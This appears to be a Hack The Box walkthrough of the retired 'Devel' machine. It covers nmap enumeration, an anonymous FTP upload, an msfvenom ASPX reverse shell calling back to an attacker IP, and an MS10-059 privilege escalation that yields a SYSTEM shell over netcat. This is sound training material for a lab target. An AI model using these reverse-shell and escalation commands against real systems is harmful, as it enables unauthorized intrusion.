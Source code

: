 ```yaml
---
layout: post
title: "Devel"
date: 2020-02-16 12:13:55 +0000
categories: HTB-Walkthrough
---
```


![devel](/assets/img/devel.png)

Hi, lets get stuck in...

Im settling on a good 'less intrusive' nmap command to start enumeration of a machine with...

`nmap -sV -Pn --min-rate 10000 -p- 10.10.10.5 |tee -a dev.txt`

Often depending on the results, ill run `-sC` or `--script=vuln` either on specific ports, or the default range.

```

Nmap scan report for 10.10.10.5
Host is up (0.092s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

In this case, its not really necessary, we can just manually test the target's ftp port to see if it will allow anonymous login.

`ftp 10.10.10.5` then use the username `anonymous` with any password like `aosdidhf`, and we got access.

A test to upload random text.txt file is successful, so we can potentially upload a reverse-shell of some sort to get a command shell on the target.

############################

The website on port 80 displays the Welcome page we found in the ftp directory...
The target is running an aspnet client, which means if we upload an evil.aspx file, we can browse to it on port 80 to trigger it.

So lets first use MSFvenom to craft an evil.aspx reverse-shell file...
`msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.19 lport=443 -f aspx -o evil.aspx`

In main ftp (root directory) `put evil.aspx`

Now just browse to `http://10.10.10.5/evil.aspx` to execute.

##################################

So we got a windows cli shell, and we need to escalate our privilages to get ntauthority/system to enable us to read root.txt in the Administrator's Desktop.

Now's a handy time to get familiarized with `windows-exploit-suggester.py`. 

First we need to do is run the command `systeminfo` then copy'n'paste the results onto our kali machine
into a text-file, in this case called sysinfo.txt.

```

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          29/1/2020, 5:13:44 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 720 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.546 MB
Virtual Memory: In Use:    501 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5

```

Read the python program first for instructions ...

```

# USAGE
,# 
# update the database
#
# $ ./windows-exploit-suggester.py --update
# [*] initiating...
# [*] successfully requested base url
# [*] scraped ms download url
# [+] writing to file 2014-06-06-mssb.xlsx
# [*] done
#
# install dependencies
#
# (install python-xlrd, $ pip install xlrd --upgrade)
#
# feed it "systeminfo" input, and point it to the microsoft database
#
# $ ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt

```

The result of following these instructions, is a list of potential methods of privilage escalation.

In this case we chose ms10-059 (chimichurri.exe)

Upload it again via ftp. Then transfer it to a place we can execute it.
I often create a directory in C: to work from (which I can remove later)
`mkdir c:\boo`

Before we execute the evil.exe, lets get a listener running on kali to catch the shell...
`nc -nlvp 999`

Then on the target run...
`c:\boo\evil.exe 10.10.14.19 999`


```

root@kali:~/HTB/retired/devel# nc -nlvp 999
listening on [any] 999 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.5] 49162
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\boo>whoami
whoami
nt authority\system

```

From here it is trivial to navigate to the user and Admin Desktops to get the user.txt.txt and root.txt.txt files.
read them with the `type` command.
eg.`type root.txt.txt`


The scenario is a simple one, but still encountered 'in the wild', and the widows-exploit-suggester.py' is definately a handy tool to have in your armoury.


:)


